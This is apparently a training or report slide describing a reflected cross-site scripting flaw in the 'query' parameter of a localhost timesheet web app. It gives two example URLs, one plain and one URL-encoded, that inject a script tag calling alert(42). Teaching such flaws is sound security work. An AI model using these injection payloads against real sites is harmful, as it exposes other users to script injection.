

# Reflected XSS
The “query” parameter is rendered into a hidden HTML input element

Examples:
http://localhost/webapp/timesheet?query=01-02-2014"><script>alert(42);</script>
http://localhost/webapp/timesheet?query=01-02-2014%22%3E%3Cscript%3Ealert%2842%29;%3C/script%3E